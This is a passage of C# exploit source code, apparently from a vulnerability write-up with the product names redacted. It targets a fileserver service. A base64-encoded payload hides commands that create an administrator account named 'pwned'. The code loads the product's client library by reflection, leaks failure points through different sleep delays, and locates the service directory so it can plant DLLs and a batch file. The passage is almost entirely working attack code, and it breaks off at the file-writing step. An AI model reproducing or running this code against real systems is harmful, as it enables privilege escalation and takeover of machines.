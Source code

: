 ```C { linenos=true, linenostart=1 }
    private const string PAYLOAD = "bmV0IHVzZXIgcHduZWQgcHduZWQgL2FkZApuZXQgbG9jYWxncm91cCBBZG1pbmlzdHJhdG9yZW4gcHduZWQgL2FkZAo=";

    public E()
    {
        // We make assumptions about the path, instead of querying something like WMI.
        var servicePath = string.Empty;
        var possibleServicePaths = new[]
        {
            @"C:\Program Files (x86)\<redacted>\fsserver.exe",
            @"D:\<redacted>\fsserver.exe",
        };

        var fsAssembly = Assembly.LoadWithPartialName("<redacted>.Fileserver.Client");

        if (fsAssembly == null) {
            // Sleeping for different amounts of time in order to leak the exact error.
            Thread.Sleep(1000*3);
            return;
        }

        var fsClientType = fsAssembly.GetType("<redacted>.Fileserver.Client.FileserverClient");
        var constructor = fsClientType.GetConstructor(Type.EmptyTypes);

        if (constructor == null) {
            Thread.Sleep(1000*5);
            return;
        }

        // Create a new instance of FileserverClient and retrieve some of its methods.
        var fsClient = constructor.Invoke(null);
        var connectMethod = fsClientType.GetMethod("Connect", Type.EmptyTypes);
        var writeFileMethod = fsClientType.GetMethod("WriteFile", new[] { typeof(string), typeof(Stream) });
        var deleteFileMethod = fsClientType.GetMethod("DeleteFile", new[] { typeof(string) });
        var disposeMethod = fsClientType.GetMethod("Dispose", Type.EmptyTypes);

        if (connectMethod == null || writeFileMethod == null || disposeMethod == null || deleteFileMethod == null) {
            Thread.Sleep(1000*7);
            return;
        }

        var connected = (bool) connectMethod.Invoke(fsClient, null);
        if (!connected) {
            Thread.Sleep(1000*9);
            return;
        }

        foreach (var path in possibleServicePaths) {
            if (File.Exists(path)) {
                servicePath = path;
            }
        }

        if (string.IsNullOrEmpty(servicePath)) {
            Thread.Sleep(1000*11);
            return;
        }

        var directoryName = Path.GetDirectoryName(servicePath);

        // Convert DLLs and batch file to streams and write them to the appropriate locations.
```